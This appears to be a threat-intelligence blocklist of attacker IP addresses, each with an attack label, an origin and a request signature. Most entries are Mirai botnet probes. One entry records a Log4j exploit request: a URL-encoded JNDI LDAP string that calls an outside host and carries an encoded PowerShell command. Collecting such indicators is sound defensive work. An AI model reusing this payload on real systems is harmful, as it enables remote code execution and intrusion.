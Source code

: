 181.219.149.148	#backdoor: Mirai.Botnet | Origin:Brazil | Signature:/spywall/timeConfig.php <br />
18.119.59.84	#Apache.Log4j.Error.Log.Remote.Code.Execution | Origin:USA | Signature:/?id=%24%7Bjndi%3Aldap%3A%2F%2F218.24.200.243%3A8066%2FTomcatBypass%2FCommand%2FBase64%2FcG93ZXJzaGVsbCAtZW5jIFNRQkZBRmdBSUFBb0FFNEFaUUIzQUMwQVR3QmlBR29BWlFCakFIUUFJQUJUQUhrQWN3QjBBR1VBYlFBdUFFNEFaUUIwQUM0QVZ3QmxBR0lBWXdCc0FHa0FaUUJ1QUhRQUtRQXVBRVFBYndCM0F <br />
91.125.213.1	#backdoor: Mirai.Botnet | Origin:UK | Signature:/spywall/timeConfig.php <br />
107.173.159.85	#backdoor: Mirai.Botnet | Origin:USA | Signature:/spywall/timeConfig.php <br />
